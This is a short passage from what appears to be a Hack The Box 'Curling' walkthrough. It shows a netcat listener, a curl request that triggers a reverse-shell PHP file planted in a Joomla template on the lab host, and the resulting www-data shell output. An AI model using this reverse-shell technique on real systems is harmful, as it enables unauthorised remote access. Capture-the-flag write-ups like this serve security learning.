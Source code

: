 ![](images/htb-curling-templates-revshell.png)


```
$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
```

```
$ curl http://10.10.10.150/templates/protostar/revshell.php
```

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.150] 54266
bash: cannot set terminal process group (1344): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html/templates/protostar$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
